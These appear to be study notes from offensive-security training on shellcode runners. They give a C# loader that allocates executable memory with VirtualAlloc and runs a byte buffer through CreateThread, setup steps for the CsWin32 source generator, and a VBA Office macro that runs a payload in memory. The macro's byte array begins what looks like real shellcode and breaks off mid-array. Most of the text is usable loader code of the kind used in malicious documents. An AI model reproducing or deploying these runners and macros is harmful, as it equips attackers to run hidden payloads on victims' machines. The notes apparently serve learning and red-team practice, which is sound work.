 
### Shellcode Runner Again

- Main body consists of the following
```csharp
			int size = buf.Length;

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, 
                IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);
```
- `btye[] buf = new byte[###] {...}`
- VirtualAlloc is a Win32 function call and is imported into C# using 

### Using CsWin32 source generator

- Create project in VS Studio Code (C# Console or C# .Net Console app)
- Project needs to be sdk type
- Search for cswin32 and install

 ![](Images/InstallCsWin32.png)
- need to add addition nuget System.Memory package as well
```ps1

dotnet add package System.Memory

```
- or using VS Code

![](Images/NuGetSystemMemory.png)

- create NativeMethods.txt file in project
- Allow unsafe code


![](Images/AllowUnsafeCode.png)



### MS Office
- VBA Script to execute payload in memory
```vb
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function mymacro()
    Dim buf As Variant
    Dim addr As LongPtr
    Dim counter As Long
    Dim data As Long
    Dim res As Long
    
    buf = Array(232, 130, 0, 0, 0, 96, 137, 229, 49, 192, 100, 139, 80, 48, 139, 82, 12, 139, 82, 20, 139, 114, 40, 15, 183, 74, 38, 49, 255, 172, 60, 97, 124, 2, 44, 32, 193, 207, 13, 1, 199, 226, 242, 82, 87, 139, 82, 16, 139, 74, 60, 139, 76, 17, 120, 227, 72, 1, 209, 81, 139, 89, 32, 1, 211, 139, 73, 24, 227, 58, 73, 139, 52, 139, 1, 214, 49, 255, 172, 193, _
```